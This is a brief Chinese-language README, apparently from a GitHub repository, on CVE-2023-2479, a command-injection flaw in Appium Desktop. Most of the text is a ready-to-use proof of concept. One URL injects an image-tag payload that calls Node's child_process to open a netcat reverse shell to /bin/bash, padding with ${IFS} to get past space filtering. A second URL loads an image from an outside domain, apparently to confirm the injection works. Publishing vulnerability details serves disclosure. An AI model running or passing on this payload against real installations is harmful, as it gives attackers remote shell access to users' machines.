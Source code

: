 ## Appium Desktop CVE-2023-2479漏洞

appium-desktop 是 Appium 服务器的图形界面，也是一个应用程序检查器

由于用户输入审查不当，此软件包的受影响版本容易受到命令注入的攻击，允许攻击者设置反向 shell。


## poc
```
http://127.0.0.1/?xss=<img/src="1"/onerror=eval("require('child_process').exec('nc${IFS}localhost${IFS}4444${IFS}-e${IFS}/bin/bash');");>

http://127.0.0.1/?url=<img/src="http://nbjfpetfmu.dgrh3.cn"> 

```
